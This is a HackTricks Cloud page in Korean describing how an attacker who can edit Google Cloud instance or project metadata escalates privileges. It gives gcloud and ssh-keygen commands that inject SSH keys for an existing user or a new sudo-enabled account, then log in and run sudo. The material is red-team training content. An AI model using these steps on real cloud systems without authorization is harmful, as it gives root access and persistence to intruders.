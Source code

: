 # GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Modifying the metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

인스턴스의 메타데이터 수정은 **공격자가 필요한 권한을 얻을 경우 상당한 보안 위험을 초래할 수 있습니다**.

#### **SSH 키를 사용자 정의 메타데이터에 통합하기**

GCP에서 **리눅스 시스템**은 종종 [Google Compute Engine용 Python Linux Guest Environment](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)에서 스크립트를 실행합니다. 이의 중요한 구성 요소는 **정기적으로** 인스턴스 메타데이터 엔드포인트를 확인하여 **허가된 SSH 공개 키의 업데이트**를 확인하는 [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)입니다.

따라서 공격자가 사용자 정의 메타데이터를 수정할 수 있다면, 그는 데몬이 새로운 공개 키를 찾도록 만들 수 있으며, 이는 처리되어 **로컬 시스템에 통합됩니다**. 키는 **기존 사용자**의 `~/.ssh/authorized_keys` 파일에 추가되거나, 키의 형식에 따라 `sudo` 권한이 있는 새로운 사용자를 생성할 수 있습니다. 그리고 공격자는 호스트를 손상시킬 수 있습니다.

#### **기존 권한 있는 사용자에게 SSH 키 추가하기**

1. **인스턴스의 기존 SSH 키 검사:**
*   인스턴스와 그 메타데이터를 설명하는 명령을 실행하여 기존 SSH 키를 찾습니다. 출력의 관련 섹션은 `metadata` 아래, 특히 `ssh-keys` 키에 있습니다.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* SSH 키의 형식에 주의하십시오: 사용자 이름은 키 앞에 위치하며, 콜론으로 구분됩니다.
2. **SSH 키 메타데이터를 위한 텍스트 파일 준비:**
* 사용자 이름과 해당 SSH 키의 세부 정보를 `meta.txt`라는 텍스트 파일에 저장합니다. 이는 기존 키를 보존하면서 새로운 키를 추가하는 데 필수적입니다.
3. **대상 사용자(`alice` 예시)의 새로운 SSH 키 생성:**
*   `ssh-keygen` 명령을 사용하여 새로운 SSH 키를 생성하며, 주석 필드(`-C`)가 대상 사용자 이름과 일치하도록 합니다.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* 새로운 공개 키를 `meta.txt`에 추가하여 인스턴스의 메타데이터에서 찾은 형식을 모방합니다.
4. **인스턴스의 SSH 키 메타데이터 업데이트:**
*   `gcloud compute instances add-metadata` 명령을 사용하여 인스턴스에 업데이트된 SSH 키 메타데이터를 적용합니다.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **새로운 SSH 키를 사용하여 인스턴스에 접근:**
*   새로운 키를 사용하여 SSH로 인스턴스에 연결하고, 대상 사용자(`alice` 예시)의 컨텍스트에서 셸에 접근합니다.

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **새로운 권한 있는 사용자 생성 및 SSH 키 추가하기**

흥미로운 사용자가 발견되지 않으면, `sudo` 권한이 부여된 새로운 사용자를 생성할 수 있습니다:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH 키를 프로젝트 수준에서 <a href="#sshing-around" id="sshing-around"></a>

**프로젝트 수준에서 SSH 키를 적용**하여 클라우드 환경의 여러 가상 머신(VM)에 대한 SSH 액세스 범위를 넓힐 수 있습니다. 이 접근 방식은 프로젝트 내에서 명시적으로 프로젝트 전체 SSH 키를 차단하지 않은 모든 인스턴스에 SSH 액세스를 허용합니다. 요약 가이드는 다음과 같습니다:

1. **프로젝트 수준에서 SSH 키 적용:**
* `gcloud compute project-info add-metadata` 명령을 사용하여 `meta.txt`의 SSH 키를 프로젝트의 메타데이터에 추가합니다. 이 작업은 VM이 "프로젝트 전체 SSH 키 차단" 옵션을 활성화하지 않는 한, SSH 키가 프로젝트의 모든 VM에서 인식되도록 보장합니다.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **프로젝트 전체 키를 사용하여 인스턴스에 SSH 접속:**
* 프로젝트 전체 SSH 키가 설정되면, 프로젝트 내의 모든 인스턴스에 SSH 접속할 수 있습니다. 프로젝트 전체 키를 차단하지 않는 인스턴스는 SSH 키를 수락하여 액세스를 허용합니다.
* 인스턴스에 SSH 접속하는 직접적인 방법은 `gcloud compute ssh [INSTANCE]` 명령을 사용하는 것입니다. 이 명령은 현재 사용자 이름과 프로젝트 수준에서 설정된 SSH 키를 사용하여 액세스를 시도합니다.

## References

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
